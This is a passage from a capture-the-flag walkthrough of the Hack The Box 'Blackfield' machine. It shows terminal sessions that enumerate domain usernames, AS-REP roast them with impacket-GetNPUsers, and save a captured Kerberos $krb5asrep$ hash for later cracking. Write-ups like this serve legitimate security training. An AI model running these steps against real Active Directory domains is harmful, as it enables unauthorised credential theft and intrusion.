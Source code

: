 ```text
┌──(ryan㉿kali)-[~/HTB/Blackfield]
└─$ head users.txt                          
AAlleni
ABarteski
ABekesz
ABenzies
ABiemiller
AChampken
ACheretei
ACsonaki
AHigchens
AJaquemai
                                                                                                                             
┌──(ryan㉿kali)-[~/HTB/Blackfield]
└─$ wc users.txt                          
 314  314 3039 users.txt
```

It looks like we're dealing with a first_initial.last_name naming convention here. We'll keep that mind in case we discover any other potential users. 

Armed with this list of usernames I can attempt to AS-REP roast, and see what we find.

```text
┌──(ryan㉿kali)-[~/HTB/Blackfield]
└─$ impacket-GetNPUsers BLACKFIELD.local/ -no-pass -usersfile users.txt 
```

Cool, this drops two confirmed usernames: audit2020 and svc_backup, as well as a ticket for user support!

```text
$krb5asrep$23$support@BLACKFIELD.LOCAL:64cfbe3c96320a79b843b0dbf80b8a79$8985c6947af36ce31780ae0e35732719f4b4670a995d47cc2744a01dbfbd36670109fbe9afca29764fde641674334e3a9bcbc5e71ff7f7369fff3801a3493be728ba1a76d71baacb998e82cfb0e9af6c1a2786b0869bc86f3ab7a809056266b666af85ed801ef1cdaba2c56444019a2bf3ff94001f40d72457c8220973c3c29ca6765c3fbfa96937d5f77c1f85d171d0f0c4453655f8b10f45fecb5f92c86acd74151051bbb173c9102addea23d6a108da8986af2b63bb1686acf1f46efd3c884552bbaa395faaaf1b4c3a778a8ad7379d646443cdfbc6716dd181ecc75f8b242e49ee8b656c022746b183a314309d83bcdcbb74
```

Lets add the usernames to a new file called real_users.txt, and the hash to a file called support_hash:

```text
┌──(ryan㉿kali)-[~/HTB/Blackfield]
└─$ cat >> real_users.txt                   
svc_backup
audit2020
support
^C
                                                                                                                             
┌──(ryan㉿kali)-[~/HTB/Blackfield]
└─$ cat >> support_hash  
$krb5asrep$23$support@BLACKFIELD.LOCAL:64cfbe3c96320a79b843b0dbf80b8a79$8985c6947af36ce31780ae0e35732719f4b4670a995d47cc2744a01dbfbd36670109fbe9afca29764fde641674334e3a9bcbc5e71ff7f7369fff3801a3493be728ba1a76d71baacb998e82cfb0e9af6c1a2786b0869bc86f3ab7a809056266b666af85ed801ef1cdaba2c56444019a2bf3ff94001f40d72457c8220973c3c29ca6765c3fbfa96937d5f77c1f85d171d0f0c4453655f8b10f45fecb5f92c86acd74151051bbb173c9102addea23d6a108da8986af2b63bb1686acf1f46efd3c884552bbaa395faaaf1b4c3a778a8ad7379d646443cdfbc6716dd181ecc75f8b242e49ee8b656c022746b183a314309d83bcdcbb74
^C
```
